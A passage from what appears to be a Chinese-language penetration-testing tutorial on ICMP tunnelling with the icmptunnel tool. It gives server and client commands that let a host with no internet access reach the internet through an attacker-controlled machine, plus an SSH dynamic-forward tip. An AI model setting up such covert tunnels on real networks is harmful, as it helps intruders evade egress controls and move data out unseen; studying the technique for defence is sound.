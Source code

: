 在服务端（攻击机）起服务（需要root权限）

```
./icmptunnel -s 10.0.1.1
```

在客户端执行

```
roule -n //查看网关地址
```

![image-20200928000339757](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200928000339757.png)

然后编辑client.sh,替换server地址，网关以及网口替换成服务端的

![image-20200928001854503](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200928001854503.png)

然后执行即可

```
./icmptunnel -c server-ip
```

![image-20200928001759182](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200928001759182.png)

这个时候就会建立一个隧道，不出网的机器就可以通过服务端（攻击机）访问internet，同时走的全是ICMP请求。

测试期间遇到一个来自18.163.116.29的ping请求，然后隧道就会断掉。

![image-20200928001014668](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200928001014668.png)

---

后来发现issues里面有人提出过这个问题，原因就是因为收到其他机器的ping请求。看来工具作者还是没有解决这个问题。不过如果部署在内网中，情况也许就好一点。

![image-20200928094042905](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200928094042905.png)

也发现了其弊端，并没有什么加密的选项。如果想要进行加密，可以在此之上进行运行其他的安全加密协议，如使用ssh动态转发

```
ssh -D 8080 -N root@10.0.0.1
```

github上有两个同名项目，还有一个300多星的[jamesbarlow/icmptunnel](https://github.com/jamesbarlow/icmptunnel)。功能和上面的一样，使用方式也差不多。

```
git clone https://github.com/jamesbarlow/icmptunnel.git
cd icmptunnel
make
```

同样在公网端启动服务端

```
./icmptunnel –s
ifconfig tun0 10.0.2.1 netmask 255.255.255.0
```

